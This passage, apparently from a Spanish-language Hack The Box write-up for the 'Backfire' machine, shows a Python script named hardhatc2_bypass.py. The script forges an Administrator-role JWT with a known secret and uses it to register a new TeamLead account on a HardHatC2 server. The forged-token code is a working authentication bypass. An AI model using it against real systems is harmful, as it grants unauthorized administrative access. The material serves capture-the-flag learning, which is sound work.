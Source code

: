```python
"aud": issuer,
"iat": int(now.timestamp()),
"exp": int(expiration.timestamp()),
"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead  
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
"Authorization": f"Bearer {token}",
"Content-Type": "application/json"
}
burp0_json = {
"password": "sth_pentest",
"role": "TeamLead",
"username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

```terminal
/home/kali/Documents/htb/machines/backfire:-$ python3 hardhatc2_bypass.py
```

Ejecuto el script `hardhatc2_bypass.py`, el cual genera un token administrativo firmado correctamente y permite autenticarse con credenciales arbitrarias `sth_pentest`:`sth_pentest`.

![](/assets/img/htb-writeup-backfire/backfire2_3.png)

---